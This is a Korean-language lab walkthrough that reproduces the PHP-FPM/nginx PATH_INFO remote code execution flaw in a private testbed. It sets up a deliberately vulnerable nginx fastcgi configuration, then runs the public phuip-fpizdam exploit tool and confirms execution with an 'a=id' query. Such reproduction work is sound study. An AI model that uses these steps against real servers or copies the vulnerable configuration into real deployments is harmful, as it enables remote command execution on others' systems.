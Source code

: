 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**


***


# **Environment**

| Type       | OS              | IP              | App                             |
| :---       | :---            | :---            | :---                            |
| Victim     | Ubuntu 18.04.3  | 192.168.108.176 | php-fpm 7.2.10</br>nginx 1.14.0 |
| Attacker   | Kali 2019       | 192.168.108.132 |                                 |


# **Setting**

nginx 설치

```sh
root@srv:~# apt-get install -y nginx
root@srv:~# systemctl enable nginx
```

/etc/nginx/conf.d/default.conf를 다음과 같이 수정

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /usr/share/nginx/html;
    index index.html index.php;
    server_name _;
    location / {
        try_files $uri $uri/ =404;
    }
    location ~ [^/]\.php(/|$) {
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        include fastcgi_params;
        fastcgi_param PATH_INFO $fastcgi_path_info;
        fastcgi_index index.php;
        fastcgi_param REDIRECT_STATUS 200;
        fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT /var/www/html;
        fastcgi_pass 127.0.0.1:9000;
    }
    location ~ /\.ht {
        deny all;
    }
}
```

/etc/nginx/nginx.conf를 다음과 같이 수정

```
user www-data;
worker_processes 1;
pid /var/run/nginx.pid;
error_log /var/log/nginx/error.log warn;
events {
    worker_connections 1024;
}
http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;
    log_format main '$remote_addr - $remote_user [$time_local] "$request" '
                    '$status $body_bytes_sent "$http_referer" '
                    '"$http_user_agent" "$http_x_forwarded_for"';
    access_log /var/log/nginx/access.log;
    sendfile on;
    keepalive_timeout 65;
    include /etc/nginx/conf.d/*.conf;
}
```

심볼릭 링크 설정

```sh
root@srv:~# ln -s /usr/lib/nginx/modules /etc/nginx/modules
```

php 설치

```sh
root@srv:~# tar -xf php-7.2.10.tar.gz
root@srv:~# apt-get -y install autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2c libxml2-dev libssl-dev libcurl4-openssl-dev libreadline-dev libedit-dev libsodium-dev argon2 libargon2-0 libargon2-0-dev
root@srv:~# ./configure '--build=x86_64-linux-gnu' '--with-config-file-path=/usr/local/etc/php' '--with-config-file-scan-dir=/usr/local/etc/php/conf.d' '--enable-option-checking=fatal' '--with-mhash' '--enable-ftp' '--enable-mbstring' '--enable-mysqlnd' '--with-password-argon2' '--with-sodium=shared' '--with-curl' '--with-libedit' '--with-openssl' '--with-zlib' '--with-libdir=lib/x86_64-linux-gnu' '--enable-fpm' '--with-fpm-user=www-data' '--with-fpm-group=www-data' '--disable-cgi' 'build_alias=x86_64-linux-gnu'
root@srv:~# make && make install
```

/usr/local/etc/php-fpm.conf에는 include=etc/php-fpm.d/*.conf를 입력

/usr/local/etc/pear.conf는 다음과 같이 입력

```
#PEAR_Config 0.9
a:33:{s:9:"cache_dir";s:15:"/tmp/pear/cache";s:15:"default_channel";s:12:"pear.php.net";s:16:"preferred_mirror";s:12:"pear.php.net";s:13:"remote_config";s:0:"";s:13:"auto_discover";i:0;s:13:"master_server";s:12:"pear.php.net";s:10:"http_proxy";s:0:"";s:7:"php_dir";s:18:"/usr/local/lib/php";s:7:"ext_dir";s:55:"/usr/local/lib/php/extensions/no-debug-non-zts-20170718";s:7:"doc_dir";s:22:"/usr/local/lib/php/doc";s:7:"bin_dir";s:14:"/usr/local/bin";s:8:"data_dir";s:23:"/usr/local/lib/php/data";s:7:"cfg_dir";s:22:"/usr/local/lib/php/cfg";s:7:"www_dir";s:25:"/usr/local/lib/php/htdocs";s:7:"man_dir";s:28:"/usr/local/lib/php/local/man";s:8:"test_dir";s:23:"/usr/local/lib/php/test";s:8:"temp_dir";s:14:"/tmp/pear/temp";s:12:"download_dir";s:18:"/tmp/pear/download";s:7:"php_bin";s:18:"/usr/local/bin/php";s:10:"php_prefix";s:0:"";s:10:"php_suffix";s:0:"";s:7:"php_ini";s:0:"";s:12:"metadata_dir";s:0:"";s:8:"username";s:0:"";s:8:"password";s:0:"";s:7:"verbose";i:1;s:15:"preferred_state";s:6:"stable";s:5:"umask";i:18;s:9:"cache_ttl";i:3600;s:8:"sig_type";s:3:"gpg";s:7:"sig_bin";s:18:"/usr/local/bin/gpg";s:9:"sig_keyid";s:0:"";s:10:"sig_keydir";s:23:"/usr/local/etc/pearkeys";}
```

/usr/local/etc/php-fpm.d/www.conf에는 다음과 같이 입력

```
[www]
user = www-data
group = www-data
listen = 127.0.0.1:9000
pm = dynamic
pm.max_children = 5
pm.start_servers = 2
pm.min_spare_servers = 1
pm.max_spare_servers = 3
```

/usr/local/etc/php/php.init에는 다음을 수정

```
display_errors = Off
display_startup_errors = Off
log_errors = Off
```

/etc/profile에 nohup php-fpm -D > /dev/null 추가

systemctl restart nginx를 통해 nginx 자동 실행 설정

/var/www/html에 index.php 등록


# **Exploit**

공격도구 설치

```sh
root@attack:~# apt-get install golang
root@attack:~# go get github.com/neex/phuip-fpizdam
root@attack:~# go install github.com/neex/phuip-fpizdam
root@attack:~# cd go/bin
```

공격도구 실행

```sh
root@attack:~# ./phuip-fpizdam http://192.168.108.176/index.php
```

![](images/2022-05-20-14-59-52.png)

브라우저를 통해 http://192.168.108.176/index.php?a=id를 입력하여 exploit 확인

![](images/2022-05-20-15-01-17.png)